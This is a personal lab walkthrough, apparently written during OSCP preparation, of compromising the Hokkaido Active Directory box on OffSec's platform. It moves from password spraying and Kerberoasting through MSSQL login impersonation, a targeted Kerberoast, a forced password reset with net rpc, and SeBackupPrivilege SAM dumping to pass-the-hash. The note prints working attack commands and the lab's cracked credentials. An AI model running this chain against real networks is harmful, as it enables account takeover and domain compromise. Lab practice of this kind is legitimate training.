


**Start 15:48 16-05-2025**

---
```
Scope:
192.168.128.40
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV hokkaido -sT -vvvv -p- -Pn -T5 --min-rate=5000

PORT      STATE    SERVICE        REASON      VERSION
53/tcp    open     domain         syn-ack     Simple DNS Plus
80/tcp    open     http           syn-ack     Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open     kerberos-sec   syn-ack     Microsoft Windows Kerberos (server time: 2025-05-16 14:02:02Z)
135/tcp   open     msrpc          syn-ack     Microsoft Windows RPC
139/tcp   open     netbios-ssn    syn-ack     Microsoft Windows netbios-ssn
389/tcp   open     ldap           syn-ack     Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-16T14:02:58+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.hokkaido-aerospace.com
| Issuer: commonName=hokkaido-aerospace-DC-CA/domainComponent=hokkaido-aerospace
445/tcp   open     microsoft-ds?  syn-ack
464/tcp   open     kpasswd5?      syn-ack
593/tcp   open     ncacn_http     syn-ack     Microsoft Windows RPC over HTTP 1.0
636/tcp   open     ssl/ldap       syn-ack     Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.hokkaido-aerospace.com
| Issuer: commonName=hokkaido-aerospace-DC-CA/domainComponent=hokkaido-aerospace
1433/tcp  open     ms-sql-s       syn-ack     Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   192.168.128.40:1433: 
|     Target_Name: HAERO
|     NetBIOS_Domain_Name: HAERO
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: hokkaido-aerospace.com
|     DNS_Computer_Name: dc.hokkaido-aerospace.com
|     DNS_Tree_Name: hokkaido-aerospace.com
|_    Product_Version: 10.0.20348
|_ssl-date: 2025-05-16T14:02:58+00:00; 0s from scanner time.
| ms-sql-info: 
|   192.168.128.40:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp  open     ldap           syn-ack     Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.hokkaido-aerospace.com
| Issuer: commonName=hokkaido-aerospace-DC-CA/domainComponent=hokkaido-aerospace
|_ssl-date: 2025-05-16T14:02:58+00:00; 0s from scanner time.
3269/tcp  open     ssl/ldap       syn-ack     Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-16T14:02:58+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.hokkaido-aerospace.com
| Issuer: commonName=hokkaido-aerospace-DC-CA/domainComponent=hokkaido-aerospace
3389/tcp  open     ms-wbt-server  syn-ack     Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Issuer: commonName=dc.hokkaido-aerospace.com
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-05-15T13:51:51
| Not valid after:  2025-11-14T13:51:51
| MD5:   37b4:2769:019c:9068:c300:46e5:9ca9:3e0e
| SHA-1: 25cf:2462:c0b0:737c:55cf:04b2:695c:9b14:96ee:d53d
| rdp-ntlm-info: 
|   Target_Name: HAERO
|   NetBIOS_Domain_Name: HAERO
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hokkaido-aerospace.com
|   DNS_Computer_Name: dc.hokkaido-aerospace.com
|   DNS_Tree_Name: hokkaido-aerospace.com
|   Product_Version: 10.0.20348
|_  System_Time: 2025-05-16T14:02:51+00:00
|_ssl-date: 2025-05-16T14:02:58+00:00; 0s from scanner time.
5985/tcp  open     http           syn-ack     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8530/tcp  open     http           syn-ack     Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: 403 - Forbidden: Access is denied.
8531/tcp  open     unknown        syn-ack
9389/tcp  open     mc-nmf         syn-ack     .NET Message Framing
47001/tcp open     http           syn-ack     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49684/tcp open     ncacn_http     syn-ack     Microsoft Windows RPC over HTTP 1.0
58538/tcp open     ms-sql-s       syn-ack     Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   192.168.128.40:58538: 
|     Target_Name: HAERO
|     NetBIOS_Domain_Name: HAERO
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: hokkaido-aerospace.com
|     DNS_Computer_Name: dc.hokkaido-aerospace.com
|     DNS_Tree_Name: hokkaido-aerospace.com
|_    Product_Version: 10.0.20348
| ms-sql-info: 
|   192.168.128.40:58538: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 58538
```

I checked out the open web ports, nothing.
SMB port was not accessible without creds.

## Brute Force

I start off brute forcing usernames, then we will create a wordlist of possible passwords to try and spray.


After getting some valid users I first try out `user - user` since that typically works in all these OffSec boxes.

### Password Spraying


This one seemed to work

```
info 
info
```

We get a boatload of open shares that we can access.

Let's check out the `/homes` share:


Hell yeah yet again a boatload of usernames.

>[!note]
>Since in [[Nagoya]] I had to think outside of the box on thinking up the password spray, I tried the same here:
>


No luck here.

Let's see what we can find on SMB.


All these directories are empty? Time to check out another share.


Well that looks promising??

### Password Reset


I went ahead and sprayed the creds and it seems like one account actually still had the default password:


```
discovery
Start123!
```

Since neither found accounts were actually able to login anywhere it was time for **Kerberoasting**.

## Kerberoasting


Hell yeah.

I then tried `john` to crack the hashes:


Too bad.

## MSSQL

I tried again to log in as *discovery* into `mssql` slightly modifying my command this time:

```bash
impacket-mssqlclient 'hokkaido-aerospace.com/discovery':'Start123!'@hokkaido -dc-ip hokkaido -windows-auth
```


>[!important]
>Beforehand I tried to log in but omitted the `-windows-auth` which failed me to log in:
>

I tried to enable `xp_cmdshell` but unfortunately I couldn't:


Let's see what else we can do.

### Enumerating Databases


`hrappdb`? Sounds interesting, let's check it out.


We'll have to impersonate another user, let's check out whom we can impersonate:


```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```


```sql
EXECUTE AS LOGIN = 'hrappdb-reader'
use hrappdb
```


Nice, now we can check it out.


There's just one table called `sysauth`.


```
hrapp-service
Untimed$Runny
```

That's weird because I haven't seen this user in here before:


Despite the above I logged in but still had no rights for `enable_xp_cmdshell`:


Could be for the other `mssql` instance, since `nmap` displayed another instance on `53538`?


Right this shit didn't work.

## BloodHound

I got stuck fucking around with `mssql` and decided to try out uploading bloodhound with the newly found creds.

>[!note]
>Password spraying didn't get me shit:
>



I went on and setup `docker-compose` as always and started up `BloodHound`.


It seems we can use a targeted kerberoast against *Hazel.Green* 


Let's do it!

### Targeted Kerberoast

```bash
python3 targetedKerberoast.py -v -d 'hokkaido-aerospace.com' -u 'hrapp-service' -p 'Untimed$Runny' --request-user 'Hazel.Green' --dc-ip hokkaido > hazel.hash
```


We can now go ahead and use `john` to crack it:


Awesome!

```
Hazel.Green
haze1988
```

I went on to enumerate further since the groups that *Hazel* was in were quite interesting:


I checked out *Molly*:


Turns out *Molly* is in fact a **Tier1-Admin**.

## Force Change Password

>[!note]
>Yet again we can use our knowledge from [[Nagoya#Set Up]] in order to force a password change for *Molly* using the `net rpc` command.

```bash
net rpc password "molly.smith" "Pass@123" -U 'hokkaido-aerospace.com'/'hazel.green'%'haze1988' -S "192.168.128.40"
```


Weird?

Let's try another trick up our sleeve.

```bash
rpcclient -N 192.168.128.40 -U 'hazel.green%haze1988'
```


What???

>[!bug]
>Turns out I had to reset the machine again....


>[!success]
>Now it worked, no error = good.

# Foothold
## RDP as Molly


We successfully RDP into the target as *Molly*.

### local.txt


# Privilege Escalation
## SeBackupPrivilege

Since we're part of the **Tier1-Admin** group as *Molly* we can try to open up `cmd` or `powershell` as admin:


We have the `SeBackupPrivilege`, I check my [[00 Windows PrivEsc.canvas|00 Windows PrivEsc]] guide:


We can get SAM + SYSTEM by copying them over.


And just like that we get the NTLM hash for *Administrator*.

## Pass The Hash

Now we can go ahead and use `evil-winrm` to login as *Administrator* by passing the hash.

### proof.txt



---

**Finished 22:07 16-05-2025**

[^Links]: [[OSCP Prep]]

#pass-the-hash #MSSQL #BloodHound #enumeration #SeBackupPrivilege #kerberoasting 